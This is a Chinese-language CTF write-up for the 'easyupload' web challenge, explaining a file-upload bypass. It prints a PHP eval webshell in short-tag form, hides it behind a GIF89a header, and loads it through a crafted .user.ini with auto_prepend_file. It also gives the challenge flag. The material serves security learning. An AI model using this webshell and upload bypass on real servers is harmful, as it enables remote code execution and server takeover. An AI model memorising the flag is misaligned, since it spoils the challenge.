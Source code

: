# easyupload

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=50df7052-1626-11ed-9827-fa163e4fa633)

1级的题也是可以让我学习到很多的。

进来只有一个上传文件的页面。题目描述提到了后门，那就不装了，直接尝试传一句话木马并抓包更改文件名。

```php
<?php @eval($_POST['shell']);?>
```

但是我发现不行。看[wp](https://blog.csdn.net/qq_56426046/article/details/126563269)发现不止有改文件名这个点可以绕过。首先服务器似乎检测了文件名，传什么文件抓的包中的filename字段就要写什么文件，不能先改成shell.png然后抓包改成shell.php。

其次是短标签。就算不改后缀名保留shell.jpg也会显示上传失败，故猜测同时判断了文件内容。这有很多种绕过的方式，这里需要将一句话木马改为短标签，也就是没有php的形式。

```php
<?=@eval($_POST['shell']);?>
```

问题来了：改了文件名绕不过去，不改文件名无法识别木马。还能咋办？永远不要低估黑客的脑洞，介绍一个[奇妙文件](https://www.cnblogs.com/anbuxuan/p/11812573.html).user.ini。这篇文章最后提到了.user.ini文件的使用场景。

- 某网站限制不允许上传.php文件，你便可以上传一个.user.ini，再上传一个图片马，包含起来进行getshell。不过前提是含有.user.ini的文件夹下需要有正常的php文件，否则也不能包含了。

这个场景是不是完全一致？我们先正常上传一个图片，发现上传路径在/uploads下。.user.ini文件要求这个路径下也有一个php文件。这不巧了吗，开发者工具点到提交按钮会发现文件会被提交到/uploads/index.php文件下，完美符合要求。

所以上传木马的步骤如下。首先上传一个名叫.user.ini的文件，内容如下。

- GIF89a
<br>auto_prepend_file=shell.png

发送的时候要抓包改content-type。格式最好像图片这样，上面空一行下面空一行，内容连在一起。不这样干可能会有奇奇怪怪的bug（不知道是不是我卡了,接下来的shell.png最好也这样）。

![burpsuite](../../images/change_content_type.png)

GIF89a是漫天过海的图片文件头，相信大家都不陌生。有了这个文件，php会自动在每一个php文件开头加上指定的文件shell.png。这个png肯定暗藏玄机，比如藏个木马之类的。shell.png内容如下。

- GIF89a
<br><?=@eval($_POST['shell']);?>

然后蚁剑链接，注意连接的路径为/uploads/index.php。flag在根目录下。

- ### Flag
  > cyberpeace{c8e1b1fa9593dc82d208c0966f5abd74}